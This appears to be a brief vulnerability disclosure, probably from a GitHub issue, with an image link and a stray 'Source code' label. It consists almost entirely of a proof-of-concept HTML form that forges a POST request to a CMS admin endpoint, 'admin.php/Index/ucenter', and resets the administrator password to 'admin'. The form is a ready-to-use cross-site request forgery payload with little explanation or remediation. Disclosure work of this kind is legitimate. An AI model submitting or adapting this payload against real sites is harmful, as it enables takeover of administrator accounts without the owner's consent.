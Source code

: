 After logging in, change the administrator password using the following POC

Password change to admin

POC:
```
<html>
  <body>
    <form action="http://www.a.com/admin.php/Index/ucenter" method="POST">
      <input type="hidden" name="formcheck" value="2335e6aa69c86829956978314ea54e23" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="realname" value="admin" />
      <input type="hidden" name="cpassword" value="123456" />
      <input type="hidden" name="password" value="admin" />
      <input type="hidden" name="rpassword" value="admin" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
